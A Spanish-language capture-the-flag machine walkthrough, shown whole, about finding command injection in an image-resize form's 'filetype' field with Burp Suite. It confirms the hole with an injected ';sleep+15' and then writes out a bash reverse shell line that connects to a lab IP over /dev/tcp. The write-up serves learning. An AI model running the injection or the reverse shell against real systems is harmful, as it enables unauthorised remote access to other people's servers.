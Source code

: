 ### Burp Suite

Vamos a usar el proxy de Burp Suite para ver las peticiones que se están enviando.
![image](/assets/images/maquinas/Pasted image 20230727091704.png)

Y una vez tengamos la petición, la mandamos al Repeater.

![image](/assets/images/maquinas/Pasted image 20230727091857.png)

Observamos tres campos que se están mandando:
1. El nombre de la imagen
2. El tipo
3. Y las dimensiones

Puede ser que en el servidor se esté ejecutando un comando que utilice esos 3 argumentos para generar la imagen, algo así como:
```shell-session
$ resize -n "mark-mc-neill-4xWHIpY2QcY-unsplash.jpg" -t "jpg" -s "30x20"
```

Esto no nos permitiría inyectar comandos, porque lo que introduzcamos estaría siendo tomado como cadena, pero si el comando luce más como:
```shell-session
$ resize -n mark-mc-neill-4xWHIpY2QcY-unsplash.jpg -t jpg -s 30x20
```

Habría una vulnerabilidad a inyección de comandos, por lo que si introducimos un `;` muy probablemente causaremos un error en el proceso. Probemos uno por uno.

El único campo que parece ser vulnerable es el `filetype`, cuando insertamos un punto y coma, el servidor tarda en responder y finalmente nos dice que *falló en generar una copia de la imagen*, diferente a la respuesta que obteníamos con los otros campos.

![image](/assets/images/maquinas/Pasted image 20230727093219.png)

Pero para estar seguros insertemos un comando que nos pueda dar una señal de que se está ejecutando, pues no obtendremos respuesta en formato de texto. Usemos `sleep`, si se ejecuta conseguiremos que el servidor tarde `x` tiempo en responder. Inyectemos `;sleep+15` (el `+` sustituye al espacio).

Y efectivamente, el servidor tarda > 15 segundos en responder. Tenemos una inyección de comandos.

---
## Ataque
Con esta vulnerabilidad deberíamos buscar una reverse shell que nos deje entrar al equipo. 

### Reverse shell
#### Script para la reverse
Vamos a crear un archivo `index.html` que podamos servir a través de un servidor `http`, y que contenga el script para la reverse shell:
```html
bash -c "bash -i >& /dev/tcp/10.10.14.13/4040 0>&1"
```

#### Servidor http
En el directorio donde se encuentra `index.html` vamos a ejecutar:
```shell-session
$ python -c http.server 80
```
